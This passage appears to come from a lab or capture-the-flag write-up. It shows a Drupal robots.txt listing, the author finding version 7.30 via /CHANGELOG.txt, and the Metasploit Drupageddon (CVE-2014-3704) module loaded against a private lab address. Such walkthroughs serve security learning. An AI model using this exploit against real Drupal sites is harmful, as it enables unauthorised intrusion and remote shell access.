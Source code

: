``` 
Disallow: /node/add/
Disallow: /search/
Disallow: /user/register/
Disallow: /user/password/
Disallow: /user/login/
Disallow: /user/logout/
# Paths (no clean URLs)
Disallow: /?q=admin/
Disallow: /?q=comment/reply/
Disallow: /?q=filter/tips/
Disallow: /?q=node/add/
Disallow: /?q=search/
Disallow: /?q=user/password/
Disallow: /?q=user/register/
Disallow: /?q=user/login/
Disallow: /?q=user/logout/
```

Sifting through the entries, I found the exact version on Drupal is 7.30, from the /CHANGELOG.txt file. Googling an exploit for this version led me to..[Drupageddon](https://www.rapid7.com/db/modules/exploit/multi/http/drupal_drupageddon)!!  Or more official, CVE-2014-3704, which describes a SQL injection vulnerability in Drupal. I fired up Metasploit for the exploit:

``` 
msf > use exploit/multi/http/drupal_drupageddon
msf exploit(drupal_drupageddon) > info

       Name: Drupal HTTP Parameter Key/Value SQL Injection
     Module: exploit/multi/http/drupal_drupageddon
   Platform: PHP
       Arch: php
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2014-10-15

Provided by:
  SektionEins
  Christian Mehlmauer <FireFart@gmail.com>
  Brandon Perry

Available targets:
  Id  Name
  --  ----
  0   Drupal 7.0 - 7.31

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOST      192.168.217.139  yes       The target address
  RPORT      80               yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /                yes       The target URI of the Drupal installation
  VHOST                       no        HTTP server virtual host

Payload information:

Description:
  This module exploits the Drupal HTTP Parameter Key/Value SQL 
  Injection (aka Drupageddon) in order to achieve a remote shell on 
  the vulnerable instance. This module was tested against Drupal 7.0 
  and 7.31 (was fixed in 7.32).
```